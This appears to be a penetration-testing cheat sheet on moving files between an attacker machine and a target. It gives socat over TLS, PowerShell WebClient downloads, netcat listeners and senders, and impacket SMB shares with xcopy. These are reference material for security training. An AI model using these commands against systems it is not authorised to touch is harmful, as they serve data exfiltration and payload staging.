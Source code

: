 ## socat: encrypted file transfer
### step #1: on attacker machine, generate a create a key and a certificate associated with it.
```bash
openssl req -newkey rsa:2048 -nodes -keyout socat.key -x509 -days 1000 -out socat.crt
```
### step #2: on attacker machine,create a pem file from the key and crt files
```bash
cat socat.key socat.crt > socat.pem
```
### step #3: on machine hosting the file:
```bash
socat -d -d OPENSSL-LISTEN:<LPORT>,cert=socat.pem,verify=0,reuseaddr,fork file:file.txt
```
### step #4: on machine receiving the file:
```bash
socat OPENSSL:<LHOST>:<LPORT>,verify=0 file:file.txt,create
```
## Powershell trasnfer: using .Net WebClient:
```powershell
(New-Object System.Net.WebClient).DownloadFile('<URL>', <OUTPUTPATH>)
```
## file transfer with netcat
### on recieving end
```bash
nc -nlvp 443 > incoming.exe
```
### on sending end
```bash
nc -nv <LHOST> 443 < /path/to/file_to_be_sent.exe
```
## SMB file transfer with impacket's `smbserver.py`
### start server on kali
```bash
smbserver.py <SHARE_NAME> `pwd` -smb2support
```
### copy/move file from share
```shell
xcopy \\<LHOST>\<SHARE_NAME>\<FILE_NAME> c:\windows\temp
```
### copy/move file to share
```shell
xcopy c:\windows\temp\test.txt \\<LHOST>\<SHARE_NAME>\test.txt
```